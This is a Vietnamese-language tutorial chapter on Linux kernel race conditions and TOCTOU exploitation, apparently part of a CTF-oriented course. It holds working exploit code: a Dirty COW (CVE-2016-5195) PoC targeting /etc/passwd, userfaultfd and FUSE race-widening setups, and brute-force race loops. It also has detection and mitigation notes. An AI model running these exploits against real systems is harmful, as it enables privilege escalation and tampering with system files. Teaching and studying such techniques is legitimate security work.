

> **Prerequisites**: [[03-kernel-security-mitigations|03. Mitigations]] · [[04-kernel-debug-environment|04. Debug Environment]]
> **Objectives**:
> - Hiểu race window và cách mở rộng nó để tăng win rate
> - Khai thác TOCTOU trong kernel code path
> - Dùng userfaultfd / FUSE để pause kernel trong race window
> - Hiểu cơ chế Dirty COW (CVE-2016-5195) là một case study điển hình
>
---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - Tồn tại "race window" — khoảng thời gian giữa check và use của một resource
> - Attacker có thể trigger two concurrent operations trên cùng resource
> - Race window đủ rộng để win trong thực tế (không quá nhỏ)
>
> [!tip] Race condition phổ biến hơn bạn nghĩ
> Nhiều CVE nổi tiếng là race condition: Dirty COW (CVE-2016-5195), runc escape (CVE-2019-5736), CVE-2022-0185... Race condition thường khó reproduce 100% nhưng có thể được làm reliable với các kỹ thuật đặc biệt.
>
---

## Cơ chế tấn công

### TOCTOU — Time Of Check To Time Of Use

Pattern lỗ hổng:

```c
// VULNERABLE: check và use tách biệt, không atomic
static long module_ioctl(..., unsigned long arg) {
    struct user_data data;

    // STEP 1: CHECK — copy struct từ userspace
    if (copy_from_user(&data, (void*)arg, sizeof(data)))
        return -EFAULT;

    // [RACE WINDOW] ← khoảng thời gian này attacker có thể modify arg!

    // STEP 2: USE — dùng data (nhưng giờ data.ptr có thể đã bị thay đổi!)
    if (data.size > MAX_SIZE) return -EINVAL;
    memcpy(kernel_buf, data.ptr, data.size);  // ptr hoặc size có thể là evil
}
```

**Điều attacker cần làm**: Trong khoảng giữa CHECK và USE, thay đổi userspace memory mà kernel đang tham chiếu.

### Race Window — Kỹ thuật mở rộng

Race window thường rất nhỏ (nanoseconds). Các kỹ thuật để "mở rộng" window:

**1. userfaultfd — Page fault làm chậm kernel**

```c
// Đặt vùng memory dưới quyền kiểm soát userfaultfd
// Khi kernel cố read page đó → kernel bị BLOCK tại page fault handler
// → Attacker có vô hạn thời gian để thay đổi data trước khi kernel tiếp tục

#include <linux/userfaultfd.h>

int uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);

struct uffdio_api uffdio_api = { .api = UFFD_API };
ioctl(uffd, UFFDIO_API, &uffdio_api);

// Register vùng memory [addr, addr+PAGE_SIZE) với userfaultfd
struct uffdio_register uffdio_register = {
    .range = { .start = addr, .len = PAGE_SIZE },
    .mode = UFFDIO_REGISTER_MODE_MISSING
};
ioctl(uffd, UFFDIO_REGISTER, &uffdio_register);

// Khi kernel access addr → kernel blocked → attacker xử lý fault
// → có thể cung cấp trang khác hoặc delay vô hạn
```

**2. FUSE filesystem — I/O làm chậm**

Nếu race path đi qua filesystem (ví dụ: read một file), mount FUSE filesystem với độ trễ tùy chỉnh → kernel sleep tại I/O wait → race window cực rộng.

**3. Brute force với nhiều threads**

Cách đơn giản nhất — chạy nhiều threads đồng thời và hy vọng win:

```c
// Thread 1: liên tục trigger vulnerable path
void *thread_exploit(void *arg) {
    while (!done) {
        trigger_vulnerable_syscall();
    }
}

// Thread 2: liên tục flip userspace data
void *thread_race(void *arg) {
    while (!done) {
        *target_ptr = GOOD_VALUE;
        *target_ptr = EVIL_VALUE;
    }
}

pthread_create(&t1, NULL, thread_exploit, NULL);
pthread_create(&t2, NULL, thread_race, NULL);
```

### Dirty COW (CVE-2016-5195) — Case Study

Dirty COW là race condition trong `mm/memory.c` — cơ chế copy-on-write của kernel Linux:

**Cơ chế lỗi:**

```text
Normal COW flow:
  Process A mmap() file read-only
  Process A write to mmap → kernel creates private copy → write to copy
  File không bị thay đổi ✓

Dirty COW race:
  Thread 1: write(mmap_ptr) → trigger COW
            kernel đang ở giữa quá trình → chưa apply private copy
  Thread 2: madvise(MADV_DONTNEED) → discard private copy
            → kernel fall back về physical file!
  Thread 1: tiếp tục write → ghi thẳng vào file! ←── RACE WIN
```

**PoC cơ bản:**

```c
#include <pthread.h>
#include <sys/mman.h>
#include <fcntl.h>

void *map;
int fd;
int stop = 0;

// Thread 1: liên tục write vào mmap
void *thread_write(void *arg) {
    while (!stop) {
        // ghi vào mmap → trigger COW
        memcpy(map, "pwned!", 6);
    }
}

// Thread 2: liên tục MADV_DONTNEED → discard private copy
void *thread_madvise(void *arg) {
    while (!stop) {
        madvise(map, 0x100, MADV_DONTNEED);
    }
}

int main() {
    fd = open("/etc/passwd", O_RDONLY);
    // map read-only file
    map = mmap(NULL, 0x1000, PROT_READ, MAP_PRIVATE, fd, 0);
    // (PROT_READ only — normally cannot write!)

    // Nhưng Dirty COW cho phép ghi vào read-only file!
    pthread_t t1, t2;
    pthread_create(&t1, NULL, thread_write, NULL);
    pthread_create(&t2, NULL, thread_madvise, NULL);
    sleep(3);
    stop = 1;
    // → /etc/passwd đã bị modify dù open O_RDONLY!
}
```

> [!warning] Dirty COW đã được patch
> CVE-2016-5195 được fix trong kernel 4.8.3 (Oct 2016). Tuy nhiên hiểu cơ chế rất quan trọng vì pattern race condition + COW xuất hiện lại trong nhiều CVEs khác.
>
### Race với ioctl và close() concurrent

Pattern phổ biến trong CTF:

```c
// Thread A: đang xử lý request dùng fd
ioctl(fd, CMD_USE_OBJECT, arg);

// Thread B: close fd trong khi Thread A đang dùng
close(fd);

// Kernel: object bị freed trong khi vẫn đang được dùng → UAF!
// → Race condition dẫn đến UAF
```

---

## Quy trình tấn công

**Môi trường giả định**: Module với TOCTOU trong ioctl handler, user-controlled pointer được dùng sau validation.

**Bước 1 — Xác định race window**

```c
// Dùng GDB để đo khoảng cách giữa check và use
// (gdb) break <check_point>
// (gdb) break <use_point>
// Đo thời gian giữa hai breakpoints → xác định window size
```

**Bước 2 — Setup userfaultfd để mở rộng window**

```c
#include <linux/userfaultfd.h>
#include <sys/mman.h>
#include <poll.h>

// 1. Allocate page dưới userfaultfd control
void *uffd_page = mmap(NULL, PAGE_SIZE, PROT_READ|PROT_WRITE,
                       MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);

// 2. Register với userfaultfd
int uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);
struct uffdio_api api = { .api = UFFD_API };
ioctl(uffd, UFFDIO_API, &api);

struct uffdio_register reg = {
    .range = { .start = (unsigned long)uffd_page, .len = PAGE_SIZE },
    .mode  = UFFDIO_REGISTER_MODE_MISSING
};
ioctl(uffd, UFFDIO_REGISTER, &reg);

// 3. Thread để xử lý fault (và delay/inject)
void *uffd_handler(void *arg) {
    struct uffd_msg msg;
    read(uffd, &msg, sizeof(msg));  // block đến khi có fault
    // → RACE WINDOW: kernel bị blocked tại page fault!
    // Làm evil action tại đây (modify file, change pointer, etc.)
    do_evil_action();

    // Cung cấp trang cho kernel tiếp tục
    struct uffdio_copy copy = {
        .src = (unsigned long)evil_page,
        .dst = (unsigned long)uffd_page,
        .len = PAGE_SIZE, .mode = 0
    };
    ioctl(uffd, UFFDIO_COPY, &copy);
}
```

> **Expected output**: Kernel bị blocked khi touch uffd_page → attacker có thời gian vô hạn trong window.
>
**Bước 3 — Trigger race với brute force fallback**

```c
pthread_t exploit_thread, race_thread;
volatile int win = 0;

void *thread_exploit(void *arg) {
    while (!win) {
        // Trigger vulnerable path
        ioctl(fd, VULN_IOCTL, uffd_page);  // → sẽ block tại uffd_page access
    }
}

void *thread_race(void *arg) {
    while (!win) {
        usleep(1);  // nhường CPU để thread_exploit chạy
        // Thay đổi target trong race window
        modify_target_pointer();
    }
}

pthread_create(&exploit_thread, NULL, thread_exploit, NULL);
pthread_create(&race_thread,    NULL, thread_race,    NULL);
```

**Bước 4 — Verify race win**

```c
// Kiểm tra sau khi race xảy ra
if (check_race_success()) {
    printf("[+] Race won! Target modified.\n");
    win = 1;
}
```

---

## Biến thể & Bypass

### CPU affinity để tăng race probability

```c
// Đặt hai threads lên hai CPU khác nhau → chạy thực sự parallel
cpu_set_t cpu0, cpu1;
CPU_ZERO(&cpu0); CPU_SET(0, &cpu0);
CPU_ZERO(&cpu1); CPU_SET(1, &cpu1);

pthread_setaffinity_np(t1, sizeof(cpu0), &cpu0);
pthread_setaffinity_np(t2, sizeof(cpu1), &cpu1);
```

### FUSE để block kernel tại I/O

Dùng khi race path đi qua filesystem operation — mount FUSE với delay handler:

```bash
# Mount FUSE với delay 5 giây mỗi lần đọc
./slow_fuse /mnt/fuse/ &
# Race script dùng file trong /mnt/fuse/ để có 5s window
```

---

## Cây quyết định



---

## Command Cheatsheet

**Thread setup với CPU affinity**

```c
void pin_thread(pthread_t t, int cpu) {
    cpu_set_t cpuset;
    CPU_ZERO(&cpuset);
    CPU_SET(cpu, &cpuset);
    pthread_setaffinity_np(t, sizeof(cpuset), &cpuset);
}
// pin_thread(t1, 0); pin_thread(t2, 1);
```

**userfaultfd minimal setup**

```c
int uffd_setup(void *page, size_t size) {
    int uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);
    struct uffdio_api   api = { .api = UFFD_API };
    ioctl(uffd, UFFDIO_API, &api);
    struct uffdio_register reg = {
        .range = {.start=(unsigned long)page, .len=size},
        .mode  = UFFDIO_REGISTER_MODE_MISSING
    };
    ioctl(uffd, UFFDIO_REGISTER, &reg);
    return uffd;
}
```

**Brute force race loop**

```c
// Compile với -pthread
pthread_t t1, t2;
volatile int stop = 0;
pthread_create(&t1, NULL, exploit_thread, NULL);
pthread_create(&t2, NULL, race_thread, NULL);
sleep(timeout);
stop = 1;
pthread_join(t1, NULL);
pthread_join(t2, NULL);
```

---

## Daily Drill

**Thời gian**: 20 phút/ngày trong 7 ngày.

**Drill 1 — Viết race loop cơ bản**
Mục tiêu: Two-thread race pattern gõ ra trong 3 phút không nhìn notes.

```c
void *t1(void *a) { while(!done) { trigger(); } }
void *t2(void *a) { while(!done) { flip_value(); } }
```

Luyện cho đến khi: pattern 2-thread race là phản xạ.

**Drill 2 — userfaultfd setup**
Mục tiêu: Setup userfaultfd từ mmap đến register không nhìn cheatsheet.

Luyện cho đến khi: 3 bước (syscall → UFFDIO_API → UFFDIO_REGISTER) thuần thục.

**Drill 3 — Reproduce Dirty COW PoC**
Mục tiêu: Compile và chạy Dirty COW PoC trên kernel cũ (5.4 hoặc cũ hơn).

Luyện cho đến khi: hiểu rõ tại sao write vào read-only mmap lại thành công.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **lockdep report**: Kernel lock dependency checker báo potential deadlock hoặc wrong lock order
> **KCSAN (Kernel Concurrency Sanitizer)**: `DATA RACE in <function>` — detect data races
> - Cần kernel compiled với `CONFIG_KCSAN=y`
>
> **Anomaly**: Một process có nhiều threads đồng thời gọi cùng syscall nhanh bất thường
>
> [!note] Mitigation
> - Dùng mutex/spinlock bảo vệ toàn bộ check-use sequence
> - Dùng `get_user()` + validate trong atomic context
> - Không tái sử dụng user pointer sau khi đã copy vào kernel
> - `CONFIG_KCSAN=y` để detect races trong CI
> - Enable `CONFIG_PROVE_LOCKING=y` để lockdep analysis
>
---

## Lab Thực hành

| Platform | Challenge/CVE | Tại sao phù hợp |
|----------|---------------|----------------|
| pawnyable.cafe | **Fleckvieh** (race variant) | TOCTOU trong ioctl handler |
| CVE | **CVE-2016-5195 (Dirty COW)** | Classic race + COW — patch kernel 4.4 để reproduce |
| CVE | **CVE-2022-0185** | Race trong filesystem mount code |
| HTB | **Checker** (Retired) | Race condition trong shared memory path |

---

## Field Manual Entry

> [!abstract] Race Condition / TOCTOU — Quick Reference
> **Điều kiện**: Check và use của resource không atomic; có thể trigger concurrently
> **Mở rộng window**: userfaultfd (block trên page fault) hoặc FUSE (block trên I/O)
> **Brute force**: 2 threads, CPU affinity khác nhau, loop đến khi win
> **Verify win**: kiểm tra side effect (file changed, privilege changed, object corrupted)
> **Dirty COW pattern**: write(mmap) + madvise(MADV_DONTNEED) × N threads
> **Ref**: [[08-race-condition-toctou|08. Race Condition & TOCTOU]]
>